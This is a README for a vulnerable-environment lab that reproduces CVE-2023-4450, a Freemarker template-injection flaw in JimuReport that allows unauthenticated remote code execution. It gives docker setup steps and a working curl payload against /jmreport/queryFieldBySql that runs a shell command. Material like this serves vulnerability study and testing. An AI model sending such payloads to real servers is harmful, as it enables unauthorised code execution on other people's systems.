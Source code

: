 # JeecgBoot SSTI (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot is an open source low-code development platform, Jimureport is one of the low code Report component.

An issue was discovered in Jimureport lower than 1.6. An unauthorized api called `/jmreport/queryFieldBySql` led to remote arbitrary code execution due to parsing SQL statements using Freemarker.

References:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## Vulnerable Environment

Execute following command to start a JeecgBoot site 3.5.3:

```
docker compose up -d
```

You can access the JimuReport website through `http://your-ip:8080/jeecg-boot/jmreport/list` after the server is started.

## Exploit

send freemarker payload with sql parameter through `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql`

```bash
curl --location 'http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql' \
--header 'Content-Type: application/json' \
--data '{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}'
```

![](1.png)
